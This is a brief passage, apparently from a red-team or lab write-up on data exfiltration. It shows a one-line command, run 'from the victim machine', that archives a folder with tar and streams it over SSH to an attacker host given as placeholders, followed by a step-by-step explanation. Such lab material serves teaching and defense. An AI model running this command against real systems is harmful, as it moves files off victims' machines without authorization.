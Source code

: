 ### SSH
from the victim machine:\
`tar cf - <folder> | ssh <RED>@<IP> "cd /tmp/; tar xpf -"`
1. We used the tar command the same as the previous task to create an archive file of the <folder> directory.\
2. Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session. \
3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.
